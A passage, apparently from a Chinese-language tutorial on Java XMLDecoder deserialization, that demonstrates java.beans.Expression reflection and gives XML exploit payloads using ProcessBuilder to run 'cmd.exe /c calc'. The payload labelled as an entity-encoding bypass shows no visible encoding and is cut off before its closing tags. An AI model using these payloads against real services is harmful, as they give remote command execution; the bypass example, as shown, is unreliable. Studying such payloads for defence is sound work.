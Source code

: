 并且通过测试可以发现Expression的使用，给出下面的例子。

```
public class cmd `{`
    public void Noparameter()`{`
        System.out.println("无参数调用....");
    `}`
    public void Parameter(Object[] obj)`{`
        System.out.println("有参数调用....");
    `}`
`}`
import java.beans.Expression;

public class test1 `{`
    public static void main(String[] args)throws Exception `{`
        Object var3 = new cmd();
        String var4 = "Parameter";//Noparameter
        Object[] var2 = new Object[]`{`"233333"`}`;
        var2 = new Object[]`{`var2`}`;
        var2 = new Object[]`{``}`;
        Expression var5 = new Expression(var3, var4, var2);
        var5.getValue();
    `}`
`}`
```

并且给出了一些exp。

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;java&gt;
    &lt;object class="java.lang.ProcessBuilder"&gt;
        &lt;array class="java.lang.String" length="3"&gt;
            &lt;void index="0"&gt;
                &lt;string&gt;cmd.exe&lt;/string&gt;
            &lt;/void&gt;
            &lt;void index="1"&gt;
                &lt;string&gt;/c&lt;/string&gt;
            &lt;/void&gt;
            &lt;void index="2"&gt;
                &lt;string&gt;calc&lt;/string&gt;
            &lt;/void&gt;
        &lt;/array&gt;
        &lt;void method="start"&gt;
        &lt;/void&gt;
    &lt;/object&gt;
&lt;/java&gt;
```

**通过实体编码绕过**

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;java&gt;
    &lt;object class="java.lang.ProcessBuilder"&gt;
        &lt;array class="java.lang.String" length="3"&gt;
            &lt;void index="0"&gt;
                &lt;string&gt;cmd.exe&lt;/string&gt;
            &lt;/void&gt;
            &lt;void index="1"&gt;
                &lt;string&gt;/c&lt;/string&gt;
            &lt;/void&gt;
            &lt;void index="2"&gt;
                &lt;string&gt;calc&lt;/string&gt;
            &lt;/void&gt;
        &lt;/array&gt;
        &lt;void method="start"/&gt;
```